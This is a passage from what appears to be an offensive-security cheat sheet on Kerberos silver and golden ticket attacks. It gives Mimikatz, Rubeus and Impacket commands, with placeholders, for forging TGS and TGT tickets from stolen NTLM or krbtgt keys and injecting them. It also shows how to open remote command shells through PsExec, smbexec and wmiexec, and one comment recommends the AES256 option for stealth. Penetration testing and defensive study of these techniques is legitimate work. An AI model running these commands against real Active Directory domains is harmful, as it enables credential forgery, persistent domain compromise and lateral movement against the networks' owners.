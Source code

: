 ### Windows (internal)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket

> Build a TGT with NTLM hash and krbtgt key, valid until krbtgt password is changed or TGT expires

Tickets must be used right after created

### Linux (external)

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
